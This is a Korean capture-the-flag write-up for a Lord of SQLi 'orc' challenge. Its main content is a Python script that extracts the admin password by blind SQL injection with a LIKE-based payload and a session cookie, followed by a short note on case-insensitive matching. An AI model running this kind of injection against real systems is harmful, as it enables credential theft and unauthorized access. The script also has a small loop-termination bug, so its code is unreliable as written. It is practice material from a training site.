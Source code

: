 비밀번호를 유추하는 과정을 파이썬을 이용하여 스크립트를 작성하였다.

```python
import requests
cookie = {'PHPSESSID':'timor8st6kt5bc5iblpcdm225b'}
flag = 1

def my_request(upw):
	url = f'https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw={upw}'
	response = requests.get(url=url,cookies=cookie)
	return response

def find_pw(res):
	for i in range(38,127):
		upw = f'1\' or pw like \'{res}'+chr(i)+'%\' --+'
		response = my_request(upw)
		if i == 38:
			continue
		if "Hello admin" in response.text:
			print("I got: ",chr(i))
			return chr(i)

	print("I think it was completed")
	flag = 0
	return 0

def solve():
	res = ""
	while flag:
		res += find_pw(res)


if __name__ == "__main__":
	solve()	
```

이전에 DVWA를 풀면서 익혔던 세션값을 포함한 get 전달, 써니나타스를 풀면서 브루트포싱을 위한 기초적인 틀을 응용했다.


![image-20220608134412199](img/image-20220608134412199.png)

대문자와 소문자를 구별하지 않는 db 설정이였는지 실제 답을 입력할 때에는 A를 소문자 a로 수정하여 제출하니 성공했다.

![image-20220608134756992](../img/image-20220608134756992.png)
